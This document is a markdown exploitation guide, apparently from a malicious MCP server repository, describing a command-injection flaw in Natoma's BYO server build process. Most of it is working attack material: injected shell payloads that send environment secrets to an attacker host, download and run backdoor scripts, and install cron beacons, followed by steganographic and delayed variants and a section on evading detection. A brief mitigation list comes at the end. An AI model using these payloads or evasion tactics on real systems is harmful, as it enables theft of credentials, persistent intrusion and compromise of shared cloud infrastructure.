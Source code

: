 # BYO Server Exploitation Guide

This document outlines how to exploit the Natoma BYO server vulnerability using this malicious MCP server.

## Attack Overview

The vulnerability exists in Natoma's BYO (Bring Your Own) server deployment process. When users provide environment variables for their MCP servers, these variables are processed without proper sanitization during the Cloud Build process, allowing for command injection.

## Step-by-Step Exploitation

### Step 1: Deploy the Repository

1. Push this mal-mcp repository to GitHub (or any Git hosting service)
2. Make the repository public or ensure Natoma can access it

### Step 2: Create BYO Server in Natoma

Go to the Natoma application and create a new BYO server with these parameters:

**Basic Configuration:**
```json
{
  "name": "Legitimate Security Scanner",
  "description": "A security scanning tool for compliance",
  "sourceType": "REPOSITORY",
  "repositorySource": {
    "repositoryUrl": "https://github.com/your-username/mal-mcp.git",
    "branchName": "main",
    "workingDirectory": "."
  }
}
```

### Step 3: Inject Malicious Environment Variables

The critical part is the environment variables. Here are various payloads:

#### Payload 1: Basic Command Execution
```json
{
  "envVars": {
    "MALICIOUS_PAYLOAD": "$(curl http://your-server.com/log-pwned.txt)",
    "NORMAL_VAR": "legitimate_value"
  }
}
```

#### Payload 2: Data Exfiltration
```json
{
  "envVars": {
    "DATABASE_URL": "postgresql://$(whoami):$(hostname)@your-server.com/stolen",
    "API_KEY": "$(env | base64 | curl -X POST -d @- http://your-server.com/exfiltrate)"
  }
}
```

#### Payload 3: Persistent Backdoor
```json
{
  "envVars": {
    "EXPLOIT_CMD": "; wget http://your-server.com/backdoor.sh -O /tmp/backdoor.sh && chmod +x /tmp/backdoor.sh && /tmp/backdoor.sh &",
    "CLEANUP": "$(rm -f /tmp/backdoor.sh 2>/dev/null || true)"
  }
}
```

#### Payload 4: Advanced Multi-Stage Attack
```json
{
  "envVars": {
    "STAGE1": "$(curl -s http://your-server.com/stage1.sh | bash)",
    "EXFIL_URL": "http://your-server.com/collect",
    "TARGET_FILES": "/etc/passwd /etc/hosts /proc/version",
    "PERSISTENCE": "$(echo '* * * * * curl http://your-server.com/beacon' | crontab -)"
  }
}
```

### Step 4: Monitor Exploitation

Set up a simple HTTP server to catch the exploitation:

```bash
# Simple Python server to log requests
python3 -m http.server 8080

# Or use netcat to catch data
nc -lvp 8080
```

### Step 5: Exploitation Results

When Natoma processes the BYO server:

1. **Cloud Build starts** and clones the repository
2. **Environment variables are processed** during container build
3. **Command injection executes** in the Cloud Build environment
4. **Malicious commands run** with Cloud Build service account permissions
5. **Data is exfiltrated** to attacker-controlled servers
6. **Backdoors may be installed** in the resulting container

## What Gets Compromised

### During Build Process:
- **Build environment secrets** (service account keys, API tokens)
- **Internal network access** from Cloud Build
- **Other build artifacts** and logs
- **Cloud metadata service** access

### In Deployed Container:
- **Runtime environment variables**
- **Container filesystem access**
- **Network access** from Cloud Run
- **Potential lateral movement** to other services

## Advanced Techniques

### Steganography in Environment Variables
Hide malicious commands in seemingly legitimate values:

```json
{
  "DATABASE_URL": "postgresql://user:pass@db.example.com/app$(curl http://evil.com)extra",
  "LOG_LEVEL": "info; curl http://evil.com/beacon; echo debug"
}
```

### Time-Delayed Execution
Use sleep commands to avoid immediate detection:

```json
{
  "DELAYED_PAYLOAD": "$(sleep 300 && curl http://evil.com/delayed-attack.sh | bash)"
}
```

### Environment Variable Chain Loading
Use one environment variable to load others:

```json
{
  "LOADER": "$(curl -s http://evil.com/env-vars.txt | source /dev/stdin)"
}
```

## Detection Evasion

1. **Use legitimate-sounding names** for environment variables
2. **Mix malicious and legitimate variables**
3. **Use common tools** (curl, wget) that might be expected
4. **Encode payloads** using base64 or other encoding
5. **Use multiple stages** to avoid detection

## Impact Assessment

This vulnerability allows attackers to:

- **Execute arbitrary code** on Google Cloud Build infrastructure
- **Access internal networks** and services
- **Steal credentials** and API keys
- **Install persistent backdoors**
- **Compromise multi-tenant environment**
- **Escalate to full infrastructure compromise**

## Mitigation

The vulnerability can be mitigated by:

1. **Input sanitization** of all environment variables
2. **Allow-listing** of permitted environment variable patterns
3. **Sandboxing** the build environment
4. **Monitoring** build logs for suspicious activity
5. **Limiting** build service account permissions

